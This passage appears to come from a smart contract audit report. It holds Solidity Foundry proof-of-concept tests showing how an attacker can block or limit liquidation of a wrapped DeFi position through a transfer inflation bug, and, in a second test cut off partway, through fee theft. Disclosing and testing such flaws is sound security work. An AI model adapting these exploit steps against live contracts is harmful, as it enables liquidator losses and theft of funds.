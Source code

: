 ```solidity
        wrapper.FULL_AMOUNT() * 99 / 100,
        bytes("")
    );

    // 9. liquidator attempts to liquidate attacker
    startHoax(liquidator);
    evc.enableCollateral(liquidator, address(wrapper));
    evc.enableController(liquidator, address(eVault));
    wrapper.enableTokenIdAsCollateral(tokenId1);

    // full liquidation reverts due to transfer inflation issue
    vm.expectRevert(
        abi.encodeWithSelector(
            bytes4(keccak256("ERC6909InsufficientBalance(address,uint256,uint256,uint256)")),
            attacker,
            wrapper.balanceOf(attacker, tokenId1),
            wrapper.totalSupply(tokenId1),
            tokenId1
        )
    );
    eVault.liquidate(attacker, address(wrapper), maxRepay, 0);

    // 10. at most 1% of the partially liquidated position can be unwrapped
    eVault.liquidate(attacker, address(wrapper), maxRepay / 10, 0);
    uint256 partialBalance = wrapper.balanceOf(liquidator, tokenId1) / 10;

    vm.expectRevert(
        abi.encodeWithSelector(
            CustomRevert.WrappedError.selector,
            liquidator,
            bytes4(0),
            bytes(""),
            abi.encodePacked(bytes4(keccak256("NativeTransferFailed()")))
        )
    );
    wrapper.unwrap(
        liquidator,
        tokenId1,
        liquidator,
        partialBalance,
        bytes("")
    );
}
```

* This third PoC demonstrates that it is still possible to cause losses to the liquidator using fee theft even after the transfer issue is fixed (apply the recommended mitigation diff to observe this test passing):

```solidity
function test_blockLiquidationsPoC_feeTheft() public {
    address attacker = makeAddr("attacker");
    address accomplice = makeAddr("accomplice");

    LiquidityParams memory params = LiquidityParams({
        tickLower: TickMath.MIN_TICK + 1,
        tickUpper: TickMath.MAX_TICK - 1,
        liquidityDelta: -19999
    });

    (uint256 tokenId1,,) = boundLiquidityParamsAndMint(params);
    (uint256 tokenId2,,) = boundLiquidityParamsAndMint(params);

    startHoax(borrower);
```
